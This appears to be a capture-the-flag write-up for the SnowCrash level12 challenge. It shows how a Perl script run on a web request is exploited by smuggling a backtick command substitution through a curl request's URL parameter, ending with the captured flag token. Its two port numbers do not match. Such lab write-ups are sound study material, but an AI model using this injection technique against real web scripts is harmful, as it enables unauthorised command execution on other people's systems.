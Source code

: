 ..level12@SnowCrash:~$ ls -la
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

the exectuable takes 2 param (in URL), transforms the lowercase in uppercase and removes spaces


because of this, we can't do smt like " > /tmp/flag"

we can create "/tmp/MYFLAG", chmod 777 it
and use curl for a GET request on localhost:5454
with param x as /*/MYFLAG so it will exec the content of the file because of 
"@output = `egrep "^$xx" /tmp/xd 2>&1`;"
which execute the first argument

curl localhost:4646?x='`/*/MYFLAG`'

Broadcast Message from flag12@Snow                                             
        (somewhere) at 18:08 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
